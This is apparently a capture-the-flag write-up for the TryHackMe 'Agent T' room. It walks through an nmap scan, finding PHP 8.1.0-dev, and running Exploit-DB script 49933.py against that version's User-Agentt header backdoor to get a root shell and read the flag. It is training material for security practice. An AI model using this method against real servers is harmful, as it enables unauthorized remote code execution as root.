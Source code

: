 <p align="center">
  THM : Agent T<br>
  Difficulty : Easy<br>
  Room link : https://tryhackme.com/room/agentt<br>
  <img src="https://i.imgur.com/oWDIySa.jpg">
</p>

## Summary

- [Nmap scan](#nmap-scan)
- [Website enumeration](#website-enumeration)
- [Exploiting PHP 8.1.0-dev](#exploiting-php-810-dev)
- [Conclusion](#conclusion)

## Nmap scan

Let's start with an agressive [nmap](https://nmap.org/) scan against the target :  
```
# Nmap 7.80 scan initiated Mon Oct 24 12:38:20 2022 as: nmap -A -p- -oN nmapResults.txt 10.10.222.61
Nmap scan report for 10.10.222.61
Host is up (0.066s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 24 12:39:08 2022 -- 1 IP address (1 host up) scanned in 48.33 seconds
```

There is only one open port, where we can access a website (port 80). Also, we have the PHP version (8.1.0-dev).

## Website enumeration

Let's take a look at the website using a web browser :  
![](https://i.imgur.com/AMvGQgu.jpg)  

This is an admin dashboard. Almost all of the buttons in this dashboard are not working and everything seems to be just cosmetics.

## Exploiting PHP 8.1.0-dev

The only information we have that seems to be useful to exploit this webserver is the PHP version which is outdated. We can search for available exploits for this PHP 
version on [Exploit-DB](https://www.exploit-db.com/). If we search for "PHP 8.1.0-dev", there is only one result :  
![](https://i.imgur.com/RhUl47F.jpg)  

This exploit leads to a RCE (Remote Code Execution), we may be able to get a reverse shell using this exploit. Let's take a look at it :  
![](https://i.imgur.com/H0DVdY8.jpg)  

This exploit uses a backdoor present in this PHP version. The backdoor can be used by adding an HTTP header named `User-Agentt` containing a payload. Let's download 
this exploit and use it against the target :  
```
attacker@AttackBox:~/Documents/THM/CTF/Agent_T$ python3 49933.py 
Enter the full host url:
http://10.10.222.61/ 

Interactive shell is opened on http://10.10.222.61/ 
Can't acces tty; job crontol turned off.
$ whoami
root

$
```

And we already have a shell as root ! Let's get the flag :  
```
$ ls /
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

$ cat /flag.txt
flag{******************************}
```

## Conclusion

This room was very easy. It shows how it can be dangerous if someone find a way to put malicious code in a program that many users will download. Thanks for this room ! And 
thanks for reading my write ups !
